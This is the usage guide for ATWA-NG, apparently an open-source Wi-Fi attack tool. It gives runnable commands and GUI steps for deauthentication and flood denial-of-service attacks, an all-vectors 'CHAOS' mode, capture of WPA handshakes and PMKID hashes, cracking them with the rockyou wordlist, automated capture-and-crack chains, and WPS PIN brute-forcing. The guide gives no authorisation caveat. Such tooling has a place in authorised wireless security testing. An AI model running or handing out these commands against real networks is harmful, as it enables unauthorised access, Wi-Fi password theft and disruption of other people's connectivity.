

# ATWA-NG — Usage Guide

Concise reference: [`README.md`](../README.md). This guide covers the GUI and common workflows.

## Table of contents
1. Install
2. Adapters & NetworkManager
3. Launch
4. GUI overview
5. Scan & channel lock
6. Attacks
7. Captures & cracking
8. WPS
9. Stop / cleanup
10. Troubleshooting

## 1. Install
```bash
git clone https://github.com/KiMiGuel/ATWA-NG
cd ATWA-NG
python -m venv .venv && source .venv/bin/activate
pip install -e .
```
Requires root for monitor-mode operations.

## 2. Adapters & NetworkManager
Recommended: two adapters.
- `wlan0` = internet (managed)
- `wlan1` = monitor (ATWA-NG)

Modern NetworkManager (>= 1.0.12) does not need to be killed. Force behavior:
```bash
ATWA_FORCE_NETWORK_MANAGER_KILLING=0 atwa gui   # keep NM
ATWA_FORCE_NETWORK_MANAGER_KILLING=1 atwa gui   # force kill
```

## 3. Launch
```bash
sudo atwa gui
```
CLI equivalents exist for every feature (`atwa --help`).

## 4. GUI overview


Panels:
- **Adapters** — select scan/monitor and AP-facing adapters; start/stop monitor mode.
- **Targets** — live scan results, signal, clients, security.
- **Attacks** — per-target and broadcast floods, WPS, WEP, rogue-AP.
- **Captures** — handshake/PMKID capture and cracking.
- **Log** — live status and errors.

## 5. Scan & channel lock
- **Start Scan** hops all channels.
- Single-click a row to select; double-click to **lock** to its channel.
- While locked, only that channel is scanned; capture restricted to the target.
- **Unlock** resumes full-channel hopping.

## 6. Attacks
Common flows:
- **Deauth** — disassociate a client (or broadcast).
- **Auth/Beacon/EAPOL/CSA/TKIP-MIC floods** — DoS/pressure vectors.
- **CHAOS** — runs all vectors at escalating tiers (100/1000/5000).
- **Smart/Omni** — adaptive chains (PMKID → handshake → crack).

Use **Stop Attack** to abort; attacks check between rounds/frames.

## 7. Captures & cracking (in depth)

### 7.1 Capture locations
All captures are stored under:
```
~/atwa-hs/<SSID>_<BSSID>/
```
Typical files:
- `handshake-01.cap` (4-way handshake)
- `pmkid_*.22000` (PMKID line)
- `lock_*.pcap` (channel-lock captures)

### 7.2 Handshake capture (CLI)
```bash
# Capture a 4-way handshake
sudo atwa handshake --iface wlan1 --bssid AA:BB:CC:DD:EE:FF --channel 6

# Verify independently
sudo atwa verify-handshake ~/atwa-hs/NET_AA:BB:CC:DD:EE:FF/handshake-01.cap
```

### 7.3 PMKID capture (clientless)
```bash
sudo atwa pmkid --iface wlan1 --bssid AA:BB:CC:DD:EE:FF --channel 6
# writes pmkid_*.22000
```

### 7.4 Crack a capture
```bash
# From a .cap (handshake)
sudo atwa crack-cap ~/atwa-hs/NET_AA:BB:CC:DD:EE:FF/handshake-01.cap \
  --wordlist /usr/share/wordlists/rockyou.txt

# From a 22000 (PMKID/hash)
sudo atwa crack ~/atwa-hs/NET_AA:BB:CC:DD:EE:FF/pmkid_*.22000 \
  --wordlist /usr/share/wordlists/rockyou.txt
```

### 7.5 Captures panel (GUI)
- Lock a target with known clients to start a lock capture.
- Use **Capture** buttons to record handshakes/PMKID.
- **Crack** runs John/aircrack-ng on the selected file; progress shows in the log.
- Stop a running crack with **Stop Attack** (terminates the subprocess tree).

### 7.6 Wordlists & formats
- Handshakes: `.cap` / `.pcap` (verified before cracking).
- PMKID: `.22000` (hashcat format).
- Wordlist: any newline-separated text file (e.g., `rockyou.txt`).

### 7.7 OMNI / Smart (automated)
```bash
# Smart: PMKID -> deauth + handshake
sudo atwa smart --iface wlan1 --bssid AA:BB:CC:DD:EE:FF --ssid NET

# Omni: profile -> PMKID -> handshake -> crack
sudo atwa omni --iface wlan1 --bssid AA:BB:CC:DD:EE:FF --ssid NET --wordlist rockyou.txt
```

### 7.8 Tips
- Verify handshakes before cracking to avoid wasted time.
- Use a strong wordlist; PMKID is often faster than handshake capture.
- Captures persist across sessions under `~/atwa-hs/`.

## 8. WPS
- `wps-recon` lists WPS-enabled APs.
- `wps-pixie` (Pixie-Dust), `wps-oneshot` (via wpa_supplicant).
- `wps-bruteforce` for PIN brute force.

## 9. Stop / cleanup
- **Stop Attack** aborts the current attack.
- **Stop Monitor** returns the adapter to managed mode and re-enables NM management.
- On close, ATWA restores monitor → managed and restarts NM.
- If NM was killed (old NM), restart manually:
  `sudo systemctl restart NetworkManager`.

## 10. Troubleshooting
- **No targets / few channels:** unlock channel lock; check adapter supports monitor mode.
- **Socket died (ENETDOWN):** interface flap during active-monitor toggle; scan auto-restarts.
- **No internet during run:** NM killed (old NM or forced). Use two adapters or netns; or restart NM after.
- **Adapter stuck unmanaged:** `sudo nmcli device set <iface> managed yes`.
- **Deauth no effect:** raise TX power or move closer; check monitor mode.